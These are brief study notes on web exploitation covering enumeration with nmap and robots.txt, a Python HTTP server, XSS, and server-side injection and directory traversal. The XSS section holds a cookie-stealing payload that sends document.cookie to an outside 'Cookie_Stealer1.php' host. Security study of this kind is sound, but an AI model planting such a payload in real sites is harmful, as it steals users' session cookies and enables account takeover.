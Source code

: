 # Web Exploitation Notes

HTTP Methods:
- GET
- POST
- PUT
- etc.

## Web Enumeration

NMAP:
```
--script http-enum
```

robots.txt:
- See potentially hidden directories or listings

## XSS

Injecting untrusted JS code into website

Simple HTTP server:
```
python3 -m http.server
```

Vulnerable:
```
 <script>document.location="http://lin-ops/Cookie_Stealer1.php?username=" + document.cookie;</script>
```

## Server side injects

Server receives input from user and execs on server-side.

- Directory Traversal

Web server default:
```
/var/www/html
```
